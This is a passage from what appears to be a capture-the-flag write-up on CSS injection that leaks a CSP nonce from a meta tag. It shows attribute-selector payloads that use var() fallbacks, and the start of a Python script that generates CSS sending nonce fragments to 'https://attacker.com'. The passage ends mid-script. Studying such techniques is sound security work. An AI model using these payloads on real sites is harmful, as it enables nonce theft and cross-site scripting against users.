 In any case, it turns out that the above payload fails because you cannot use undefined variables as a value in `background`. Thankfully, if you actually read the PortSwigger article in full, you would have come to know a feature of custom properties known as [fallbacks](https://developer.mozilla.org/en-US/docs/Web/CSS/var#custom_properties_with_fallbacks_for_use_when_the_property_has_not_been_set), which allows you to set a default value when using a variable when the variable is undefined. We stand on the shoulders of giants and simply copy and paste the default value they use (i.e. `none`). We modify our payload slightly to use fallbacks:

{% highlight css %}
meta[content^="a"] {
  --starts-with-a:url(/startsWithA);
}
meta[content^="b"] {
  --starts-with-b:url(/startsWithB);
}
...
meta{
   background: var(--starts-with-a,none),var(--starts-with-b,none),...,var(--ends-with-9,none);
}
{% endhighlight %}

We finally get multiple callbacks!

![obviously cooked example](/images/newdiary/multi-callback.png)

Now we can take this basic premise, and write the full exploit. By leaking 3 characters of the `meta` element `content` attribute at a time, we can reasonably use that to reconstruct the full nonce on the receiving server's end. We can whip up a script to create our desired payload CSS, as below:

{% highlight python %}
#!/usr/bin/env python3

import itertools

URL = "https://attacker.com"


TEMPLATE_START = '''*{display:block} meta[content^="%s"]{
    --props_%s: url(%s?START=%s);
}
'''

TEMPLATE_META =  '''*{display:block} meta[content*="%s"]{
    --prop_%s: url(%s?MATCH=%s);
}
'''

TEMPLATE_BACKGROUND_META = '''*{display:block} meta[content]{
    background: %s;
}
'''

CHARSET = "abcdefghijklmnopqrstuvwxyz0123456789"

CSS_DIR = "css"

all_css = ""
props = []

for cs in itertools.product(CHARSET, repeat=2):
    s = "".join(cs)
    all_css += TEMPLATE_START % (s, s, URL, s)
    props.append(f"var(--props_{s},none)")

for i, cs in enumerate(itertools.product(CHARSET, repeat=3)):
    s = "".join(cs)
    all_css += TEMPLATE_META % (s, s, URL, s)